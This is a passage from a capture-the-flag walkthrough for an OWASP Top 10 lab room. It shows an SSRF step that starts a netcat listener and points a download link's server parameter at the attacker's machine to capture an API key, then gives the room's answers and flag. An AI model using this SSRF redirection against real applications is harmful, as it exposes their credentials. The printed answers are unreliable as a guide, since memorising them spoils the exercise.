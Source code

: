 **=> Answer: `secure-file-storage.com`**

- Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?

- Run a gateway on port 80

```bash
nc -lvp 80
```

- Change the `/download?server=<YOUR_IP>:80..` url in `Download resume` link

![Guide image](./screenshots/owasp-top-10-2021-23.png)

- Go back to your terminal to get the flag

![Guide image](./screenshots/owasp-top-10-2021-22.png)

**=> Answer: `THM{Hello_Im_just_an_API_key}`**

### 23. What Next?

_No hints needed!_

